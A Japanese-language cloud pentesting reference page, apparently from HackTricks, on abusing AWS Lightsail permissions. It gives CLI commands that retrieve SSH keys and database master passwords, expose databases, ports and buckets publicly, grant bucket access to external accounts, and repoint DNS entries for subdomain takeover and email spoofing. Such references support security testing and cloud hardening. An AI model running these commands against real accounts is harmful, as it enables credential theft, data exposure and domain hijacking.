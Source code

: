# AWS - Lightsail Privesc

{{#include ../../../banners/hacktricks-training.md}}

## Lightsail

Lightsailに関する詳細情報は、以下を確認してください：

{{#ref}}
../aws-services/aws-lightsail-enum.md
{{#endref}}

> [!WARNING]
> Lightsailは**ユーザーに属するIAMロールを使用しない**ことに注意することが重要です。代わりにAWS管理アカウントを使用するため、このサービスを利用して権限昇格を行うことはできません。しかし、**機密データ**（コード、APIキー、データベース情報など）がこのサービス内に存在する可能性があります。

### `lightsail:DownloadDefaultKeyPair`

この権限を使用すると、インスタンスにアクセスするためのSSHキーを取得できます：
```
aws lightsail download-default-key-pair
```
**潜在的な影響:** インスタンス内の機密情報を見つける。

### `lightsail:GetInstanceAccessDetails`

この権限を使用すると、インスタンスにアクセスするためのSSHキーを生成できます：
```bash
aws lightsail get-instance-access-details --instance-name <instance_name>
```
**潜在的な影響:** インスタンス内の機密情報を見つける。

### `lightsail:CreateBucketAccessKey`

この権限を使用すると、バケットにアクセスするためのキーを取得できます:
```bash
aws lightsail create-bucket-access-key --bucket-name <name>
```
**潜在的な影響:** バケット内の機密情報を見つける。

### `lightsail:GetRelationalDatabaseMasterUserPassword`

この権限を使用すると、データベースにアクセスするための資格情報を取得できます。
```bash
aws lightsail get-relational-database-master-user-password --relational-database-name <name>
```
**潜在的な影響:** データベース内の機密情報を見つける。

### `lightsail:UpdateRelationalDatabase`

この権限により、データベースにアクセスするためのパスワードを変更できます。
```bash
aws lightsail update-relational-database --relational-database-name <name> --master-user-password <strong_new_password>
```
もしデータベースが公開されていない場合、次の権限を使用して公開することもできます。
```bash
aws lightsail update-relational-database --relational-database-name <name> --publicly-accessible
```
**潜在的な影響:** データベース内の機密情報を見つける。

### `lightsail:OpenInstancePublicPorts`

この権限は、ポートをインターネットに開放することを許可します。
```bash
aws lightsail open-instance-public-ports \
--instance-name MEAN-2 \
--port-info fromPort=22,protocol=TCP,toPort=22
```
**潜在的な影響:** 機密ポートへのアクセス。

### `lightsail:PutInstancePublicPorts`

この権限は、ポートをインターネットに開放することを許可します。指定されていないポートは閉じられることに注意してください。
```bash
aws lightsail put-instance-public-ports \
--instance-name MEAN-2 \
--port-infos fromPort=22,protocol=TCP,toPort=22
```
**潜在的な影響:** 機密ポートへのアクセス。

### `lightsail:SetResourceAccessForBucket`

この権限は、追加の資格情報なしでインスタンスにバケットへのアクセスを付与することを可能にします。
```bash
aws set-resource-access-for-bucket \
--resource-name <instance-name> \
--bucket-name <bucket-name> \
--access allow
```
**潜在的な影響:** 機密情報を含むバケットへの新しいアクセスの可能性。

### `lightsail:UpdateBucket`

この権限を持つ攻撃者は、自分のAWSアカウントにバケットへの読み取りアクセスを付与したり、バケットを誰でも公開にすることができます。
```bash
# Grant read access to exterenal account
aws update-bucket --bucket-name <value> --readonly-access-accounts <external_account>

# Grant read to the public
aws update-bucket --bucket-name <value> --access-rules getObject=public,allowPublicOverrides=true

# Bucket private but single objects can be public
aws update-bucket --bucket-name <value> --access-rules getObject=private,allowPublicOverrides=true
```
**潜在的な影響:** 機密情報を含むバケットへの新しいアクセスの可能性。

### `lightsail:UpdateContainerService`

この権限を持つ攻撃者は、コンテナサービスからプライベートECRへのアクセスを付与することができます。
```bash
aws update-container-service \
--service-name <name> \
--private-registry-access ecrImagePullerRole={isActive=boolean}
```
**潜在的な影響:** プライベートECRからの機密情報の取得

### `lightsail:CreateDomainEntry`

この権限を持つ攻撃者は、サブドメインを作成し、自分のIPアドレスにポイントさせることができる（サブドメインの乗っ取り）、または、ドメインからのメールを偽装することを可能にするSPFレコードを作成することができる、さらにはメインドメインを自分のIPアドレスに設定することもできる。
```bash
aws lightsail create-domain-entry \
--domain-name example.com \
--domain-entry name=dev.example.com,type=A,target=192.0.2.0
```
**潜在的な影響:** ドメインの乗っ取り

### `lightsail:UpdateDomainEntry`

この権限を持つ攻撃者は、サブドメインを作成し、自分のIPアドレスにポイントさせることができる（サブドメインの乗っ取り）、またはSPFレコードを作成してドメインからのメールを偽装することを許可することができる、さらにはメインドメインを自分のIPアドレスに設定することさえできる。
```bash
aws lightsail update-domain-entry \
--domain-name example.com \
--domain-entry name=dev.example.com,type=A,target=192.0.2.0
```
**潜在的な影響:** ドメインの乗っ取り

{{#include ../../../banners/hacktricks-training.md}}
